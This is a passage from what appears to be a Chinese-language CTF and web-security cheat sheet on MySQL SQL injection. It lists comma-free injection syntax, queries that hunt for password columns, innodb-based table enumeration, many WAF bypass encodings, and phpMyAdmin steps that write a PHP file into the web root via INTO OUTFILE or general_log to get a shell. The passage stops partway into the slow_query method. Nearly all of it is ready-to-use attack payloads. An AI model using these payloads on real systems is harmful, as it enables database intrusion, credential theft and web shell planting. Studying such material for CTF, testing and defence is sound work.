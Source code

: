 - 不使用逗號
    - `LIMIT N, M` => `LIMIT M OFFSET N`
    - `mid(user(), 1, 1)` => `mid(user() from 1 for 1)`
    - `UNION SELECT 1,2,3` => `UNION SELECT * FROM ((SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c)`

- 快速查找帶關鍵字的表
    - `select table_schema,table_name,column_name from information_schema.columns where table_schema !=0x696E666F726D6174696F6E5F736368656D61 and table_schema !=0x6D7973716C and table_schema !=0x706572666F726D616E63655F736368656D61 and (column_name like '%pass%' or column_name like '%pwd%');
    `

- innodb
    - 表引擎為 innodb
    - MySQL > 5.5
    - innodb_table_stats、innodb_table_index存放所有庫名表名
    - `select table_name from mysql.innodb_table_stats where database_name=資料庫名;`
    - Example: [Codegate2018 prequal - simpleCMS](https://github.com/w181496/CTF/tree/master/codegate2018-prequal/simpleCMS)

- Bypass WAF

    - `select password` => `SelEcT password` (大小寫)
    - `select password` => `select/**/password` (繞空白)
    - `select password` => `s%65lect%20password` (URLencode)
    - `select password` => `select(password)` (繞空白)
    - `select password` => `select%0apassword` (繞空白)
        - %09, %0a, %0b, %0c, %0d, %a0
    - `select password from admin` => `select password /*!from*/ admin` (MySQL註解)
    - `information_schema.schemata` => ``` `information_schema`.schemata ``` (繞關鍵字/空白)
        - ``` select xxx from`information_schema`.schemata``` 
    - `select pass from user where id='admin'` => `select pass from user where id=0x61646d696e` (繞引號)
        - `id=concat(char(0x61),char(0x64),char(0x6d),char(0x69),char(0x6e))`
    - `?id=0e2union select 1,2,3` (科學記號)
        - `?id=1union select 1,2,3`會爛
        - `?id=0e1union(select~1,2,3)` (~)
        - `?id=.1union select 1,2,3` (點)
    - `WHERE` => `HAVING` (繞關鍵字)
    - `AND` => `&&` (繞關鍵字)
        - `OR` => `||`
        - `=` => `LIKE`
        - `a = 'b'` => `not a > 'b' and not a < 'b'`
        - `> 10` => `not between 0 and 10`
    - `LIMIT 0,1` => `LIMIT 1 OFFSET 0` (繞逗號)
        - `substr('kaibro',1,1)` => `substr('kaibro' from 1 for 1)`
    - Multipart/form-data繞過
        - http://xdxd.love/2015/12/18/%E9%80%9A%E8%BF%87multipart-form-data%E7%BB%95%E8%BF%87waf/
        - Example: [Real World CTF 4th - Hack into Skynet](https://github.com/w181496/CTF/tree/master/RealWorldCTF2022/Hack_into_Skynet)
    - 偽造 User-Agent
        - e.g. 有些 WAF 不封 google bot

- phpMyAdmin
    - 寫文件 getshell
        - 條件
            - root 權限
            - 已知 web 路徑
            - 有寫檔權限
        - `select "<?php phpinfo();?>" INTO OUTFILE  "c:\\phpstudy\\www\\shell.php"`
    - general_log getshell
        - 條件
            - 讀寫權限
            - 已知 web 路徑
        - step1. 開啟日誌: `set global general_log = "ON";`
        - step2. 指定日誌文件: `set global general_log_file = "/var/www/html/shell.php";`
        - step3. 寫入php: `select "<?php phpinfo();?>";`
    - slow_query getshell